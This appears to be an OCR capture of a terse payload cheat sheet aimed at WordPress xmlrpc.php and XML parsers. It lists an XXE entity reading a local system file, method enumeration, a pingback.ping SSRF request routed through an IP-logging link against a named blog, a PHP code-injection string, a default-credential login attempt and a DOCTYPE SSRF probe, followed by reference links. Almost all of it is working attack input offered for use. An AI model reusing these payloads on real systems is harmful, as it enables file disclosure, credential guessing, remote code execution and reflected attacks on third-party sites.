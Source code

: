 
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>


<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>


<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>https://grabify.link/CSZPYU</string></value>
</param>
<param>
<value><string>https://blog.jet.com/</string></value>
</param>s
</params>
</methodCall>


<?xml version="1.0"?> 
<methodCall> 
<methodName>test.method</methodName> 
<params> 
<param> 
<value><name>','')); phpinfo(); exit;/*</name></value> 
</param> 
</params> 
</methodCall> 


<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
     <methodName>wp.getUsersBlogs</methodName>
        <params>
           <param><value>administrator</value></param>
           <param><value>admin</value></param>
       </params>
</methodCall>


POST $URL
Content-type: text/xml 
Content-Length: 44  <!DOCTYPE a PUBLIC "-//B/A/EN" "C:\windows">



xmlrpc.php exploit:   (SSRF attack calling self XMLRPC.php)
https://blog.sucuri.net/2014/03/more-than-162000-wordpress-sites-used-for-distributed-denial-of-service-attack.html
https://hackerone.com/reports/325040
